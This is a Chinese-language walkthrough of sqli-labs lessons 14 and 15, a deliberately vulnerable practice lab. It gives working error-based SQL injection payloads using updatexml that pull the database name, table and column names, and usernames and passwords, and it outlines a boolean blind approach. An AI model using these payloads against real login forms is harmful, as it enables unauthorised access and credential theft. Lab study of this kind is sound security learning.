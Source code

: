 ## less-14

##### 注入类型

登录框字符串型无回显注入

##### 输入点：

输入`admin"`  123回显该报错，得知做了`"`处理

![image-20201109200926216](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114703.png)

##### 输出点：

输入`admin"#`  123 无回显，于是得知，可以先使用`"`闭合语句，再使用报错注入来进行SQL注入![image-20201109194844901](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114702.png)

##### 注入方式

- 通过`updatexml`来报错注入查询

##### 注入步骤

- 报错注入不需要判断字段数，所以直接爆数据库名`payload:1admin" and updatexml(1,concat(0x7e,(select database()),0x7e),1) and "`
- 爆数据表`payload:1admin" or updatexml(1,concat('~',(select group_concat(table_name)from information_schema.tables where table_schema=database()),'~'),1) or "`
- 爆字段`payload:1admin" or updatexml(1,concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'),1) or "` 右：`id=1admin" or updatexml(1,right(concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'),32),1) or "`
- 爆数据`payload:1admin" and updatexml(1, concat(0x7e,(select (group_concat(username,password)) from users),0x7e),1) or "` `payload:1admin" and updatexml(1, right(concat(0x7e,(select (group_concat(username,password)) from users),0x7e),32),1) or "`

## less-15

##### 注入类型

布尔型盲注

##### 输入点：

![image-20201109201530324](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114704.png)

##### 输出点：

使用`'`闭合构造语句，返回图片为这个。成功与否返回的图片不一样

![image-20201110132051596](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114705.png)

##### 注入方式

使用python脚本来进行布尔盲注
